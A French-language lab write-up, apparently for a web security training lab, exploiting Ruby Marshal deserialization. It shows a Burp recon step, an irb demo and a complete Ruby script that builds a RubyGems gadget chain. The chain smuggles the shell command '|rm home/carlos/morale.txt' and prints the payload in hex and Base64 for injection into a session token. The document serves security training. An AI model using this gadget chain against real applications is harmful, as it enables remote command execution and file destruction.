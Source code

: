 # Ruby deserialization using a documented gadget chain
- Même principe que la déserialisation PHP, sauf que là on utilise le langage Ruby comme intermédiaire.<br/>
## Reconnaissance
- Je laisse tourner burpsuite en arrière-plan pendant que je me login avec les identifiants précisés dans l'énoncé.<br/></br>
<img src="https://media.discordapp.net/attachments/768928242467340328/770030149490966548/unknown.png"/><br/><br/>
- Je check l'historique des requêtes et je sélectionne l'index où le procédé du login a été sérialisé.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770031231060017192/unknown.png?width=1195&height=890"/><br/><br/>
## Développement gadget 
- Pour commencer, un peu de théorie. Les termes utilisés par Ruby pour désigner la sérialisation et la désérialisation sont marshalling et unmarshalling.
- La classe Marshal a les méthodes de classe «dump» et «load» qui peuvent être utilisées comme suit:<br/><br/>
```ruby
$ irb
izjosve@ijzosve:~$ irb

irb(main):001:1* class Person

irb(main):002:1*   attr_accessor :name

irb(main):003:0> end
=> nil

irb(main):004:0> p = Person.new

irb(main):005:0> p.name = "ijzosve"

irb(main):006:0> p
=> #<Person:0x000055b382dc13e8 @name="ijzosve">

irb(main):007:0> Marshal.dump(p)
=> "\x04\bo:\vPerson\x06:\n@nameI\"\fijzosve\x06:\x06ET"

irb(main):008:0> Marshal.load("\x04\bo:\vPerson\x06:\n@nameI\"\fijzosve\x06:\x06ET")
=> #<Person:0x000055b383081e98 @name="ijzosve">
```
<br/><br/>
- Pour le script qui génère et vérifie la désérialisation de la gadget chain j'ai utilisé cette documentation https://www.elttam.com/blog/ruby-deserialization/#content.
<br/><br/>
```ruby
#!/usr/bin/env ruby

class Gem::StubSpecification
  def initialize; end
end


stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|rm "home/carlos/morale.txt")

puts "STEP n"
stub_specification.name rescue nil
puts


class Gem::Source::SpecificFile
  def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts


$dependency_list= Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts


class Gem::Requirement
  def marshal_dump
    [$dependency_list]
  end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts


puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
  pipe.print payload
  pipe.close_write
  puts pipe.gets
  puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts


require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```
<br/><br/>
- J'exécute.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770745566602723408/unknown.png?width=1205&height=336"/><br/><br/>
- On a notre gadget chain, maintenant on a plus qu'à le remplacer par le token de la requête.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/770746126319878174/unknown.png?width=1274&height=392"/><br/><br/>
